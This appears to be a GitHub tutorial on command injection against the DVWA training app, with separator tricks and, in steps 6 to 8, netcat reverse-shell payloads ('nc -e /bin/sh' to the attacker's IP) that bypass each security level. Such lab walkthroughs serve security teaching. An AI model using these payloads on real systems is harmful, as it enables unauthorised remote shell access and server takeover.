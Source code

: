 
# Command Injection

Command Injection attack is performed by using arbitrary commands(The command which helps the system to run for example the commands used to play around with the file management system).

## What can we do by using the Command Injection attack ?

1. We can get control over the shell or terminal of the server where the website is hosted.   
2. Can upload shell using wget command on the public platform which can be highly exploitable.  

## Performing attack on DVWA 

1. Changing the security level of DVWA to low level of security. 

![image](https://user-images.githubusercontent.com/60937657/194223462-0e43d07a-d6dd-4291-8777-f9c30ff0c9e2.png)

![image](https://user-images.githubusercontent.com/60937657/194223357-3a83b501-8961-4646-b043-efc1e4060faf.png)

2. Find the IP address using terminal. 

```
  ifconfig 
```

3. Enter IP address to DVWA.  

![image](https://user-images.githubusercontent.com/60937657/194224867-2863f530-e203-4c53-92bf-344421fb8116.png)

4. Performing arbitrary command.

**Note** We will use arbitrary commands using piping. 

**For Example** 

```
  ls ; pwd 
```
```
  ls && pwd 
```
```
#In this way of piping we will only be output of final command which in pwd in this case.
  ls | pwd 
```
![image](https://user-images.githubusercontent.com/60937657/194370933-c383fb1c-ca37-48d2-ba90-a91d5ae01d8c.png)

5. Make a connection in shell of website server with terminal of our machine by starting netcat services for linux based server 

Using the below given command in terminal.

```
nc -vv -l -p 8080
```

![image](https://user-images.githubusercontent.com/60937657/194373887-5eb2d874-5036-4779-b0e8-a3bd5dbcdf2e.png)

**Note** Netcat service will always be hosted in bin folder of linux as per the architecture

6. Using a command in which we are going to use IP of our OS to fire on website by which we are going to get a connection in out terminal. 

```
IP_Address_of_my_OS ; nc -e /bin/sh IP_Address_of_my_OS 8080
```

![image](https://user-images.githubusercontent.com/60937657/194376389-1efd866c-c799-491e-8f69-ea807c39928c.png)

7. Changing the DVWA Security level to medium and then performing command injection using different piping method. 

```
IP_Address_of_my_OS | nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195312022-384fa5e3-338b-45b8-a3ed-73d796266087.png)

8. Changing the DVWA Security level to high and then performing command injection by just not providing any space while piping. 

```
IP_Address_of_my_OS|nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195314107-abebbe23-9775-4697-a6ce-192359913e07.png)

**Note** Can also use cat command to display the contents of one or more file without having to open the file for editing. 

![image](https://user-images.githubusercontent.com/60937657/195314710-90a92522-dc9e-417c-b44d-341bc200b5e7.png)

9. Precaution to avoid command injection attack.

To avoid this type of major attack we can add blacklist as given in the image below 

![image](https://user-images.githubusercontent.com/60937657/195316315-3f95c69c-83c0-4a0a-8b3f-8611104f6a4e.png)

![image](https://user-images.githubusercontent.com/60937657/195316066-a42cb9eb-159d-4077-8731-86e7b3123d5c.png)







